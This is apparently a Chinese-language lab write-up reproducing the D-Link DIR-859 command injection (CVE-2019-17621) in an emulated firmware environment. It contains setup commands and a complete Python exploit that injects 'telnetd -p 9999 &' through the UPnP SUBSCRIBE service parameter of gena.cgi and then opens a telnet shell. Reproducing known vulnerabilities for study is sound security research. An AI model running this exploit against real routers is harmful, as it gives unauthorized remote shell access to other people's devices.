

# D-Link DIR-859 命令注入漏洞（CVE-2019-17621）

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- firmadyne：固件主机：192.168.0.1
- htdocs/cgibin（有漏洞的服务程序）：192.168.0.1:49152
- 镜像依赖：`firmianay/ubuntu1604 -> firmianay/binwalk:noentry -> firmianay/firmadyne（或者 firmianay/firmae）`

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/DIR822A1_FW103WWb03.bin"
```

构建并启动漏洞环境：

```sh
# 构建镜像
$ docker-compose -f docker-compose-firmadyne.yml build
# 或者：docker-compose -f docker-compose-firmae.yml build

# 启动容器
$ docker-compose -f docker-compose-firmadyne.yml up

# 启动完成后，开启 socks 代理
$ ssh -D 2345 root@127.0.0.1 -p 1234
# 配置浏览器代理，即可登陆 Web 后台 http://192.168.0.1/

# 漏洞利用
$ python3 tools/exp.py
```

使用 nmap 扫描可以发现 `9999` 端口被开启，运行 telnet 服务：

```
root@4fd552722f7a:~# nmap 192.168.0.1
PORT      STATE SERVICE
80/tcp    open  http
443/tcp   open  https
9999/tcp  open  abyss
49152/tcp open  unknown
```

## 漏洞复现



## Exploit

```py
#!/usr/bin/python3

import socket
import os
from time import sleep

def httpSUB(server, port, shell_file):
    print('\n[*] Connection {host}:{port}'.format(host=server, port=port))

    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    request  = "SUBSCRIBE /gena.cgi?service=" + str(shell_file) + " HTTP/1.0\n"
    request += "Host: " + str(server) + str(port) + "\n"
    request += "Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
    request += "NT: upnp:event\n"
    request += "Timeout: Second-1800\n"
    request += "Accept-Encoding: gzip, deflate\n"
    request += "User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50\n\n"
    print('[*] Sending Payload')
    sleep(1)

    con.connect((socket.gethostbyname(server), port))
    con.send(request.encode())
    results = con.recv(4096)
    print('[*] Running Telnetd Service')
    sleep(2)

    print('[*] Opening Telnet Connection\n')
    os.system('telnet ' + str(server) + ' 9999')

serverInput = "192.168.0.1"
portInput = 49152
httpSUB(serverInput, portInput, '`telnetd -p 9999 &`')
```

## 参考链接

- https://mp.weixin.qq.com/s/TzFepaBpYnMbZ8Mep4IXwA
- https://mp.weixin.qq.com/s/QLRxTfurYTPX3NNR3nZOMg
